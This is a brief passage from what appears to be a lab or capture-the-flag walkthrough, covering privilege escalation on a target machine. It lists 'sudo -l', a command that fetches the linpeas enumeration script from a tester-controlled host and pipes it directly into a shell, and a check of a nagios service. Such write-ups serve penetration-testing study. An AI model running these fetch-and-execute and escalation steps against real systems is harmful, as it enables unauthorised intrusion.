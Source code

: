 **<u>Priv esc:</u>**

```bash
sudo -l

```

![image44](../resources/7ed1a3f29edb426cbe4867e5eadd6adf.png)

- Upload linpeas:

```bash
curl http://10.10.14.38:8082/linpeas.sh | sh

```

![image45](../resources/20e33d20de5a4343b29ba0fade487521.png)

- Looking at the services from linpeas:

```bash
systemctl status nagios.service

```
